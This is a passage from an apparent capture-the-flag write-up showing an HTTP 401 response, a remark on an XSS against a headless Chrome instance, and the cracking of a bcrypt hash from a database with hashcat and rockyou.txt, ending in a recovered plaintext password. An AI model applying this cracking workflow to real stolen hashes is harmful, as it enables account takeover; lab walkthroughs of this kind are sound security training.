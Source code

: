 ```
< Date: Sun, 11 Aug 2024 19:25:14 GMT
< Connection: close
< X-Powered-By: PHP/7.4.3-4ubuntu2.23
< WWW-Authenticate: Basic realm="Restricted Area"
< Content-type: text/html; charset=UTF-8
< 
* Closing connection 0
Unauthorized access

```

This turns out to be related to the headless Chrome instance that is being exploited by the XSS above.

### Crack Hash

I’ll take the hash from the database and save it in a file. There are two `\` that are escaping `/` that I’ll need to remove:

```

oxdf@hacky$ cat hash 
$2y$10$iOrk210RQSAzNCx6Vyq2X.aJ/D.GuE4jRIikYiWrD3TM/PjDnXm4q

```

I’ll pass that to `hashcat`, which identifies is as one of four possible hash format:

```

$ hashcat hash rockyou.txt 
hashcat (v6.2.6) starting in autodetect mode
...[snip]...
The following 4 hash-modes match the structure of your input hash:

      # | Name                                                       | Category
  ======+============================================================+======================================
   3200 | bcrypt $2*$, Blowfish (Unix)                               | Operating System
  25600 | bcrypt(md5($pass)) / bcryptmd5                             | Forums, CMS, E-Commerce
  25800 | bcrypt(sha1($pass)) / bcryptsha1                           | Forums, CMS, E-Commerce
  28400 | bcrypt(sha512($pass)) / bcryptsha512                       | Forums, CMS, E-Commerce

Please specify the hash-mode with -m [hash-mode].
...[snip]...

```

3200 is the standard bcrypt hash, which is the most common, so I’ll start there:

```

$ hashcat hash rockyou.txt -m 3200
hashcat (v6.2.6) starting
...[snip]...
$2y$10$iOrk210RQSAzNCx6Vyq2X.aJ/D.GuE4jRIikYiWrD3TM/PjDnXm4q:mychemicalromance
...[snip]...

```
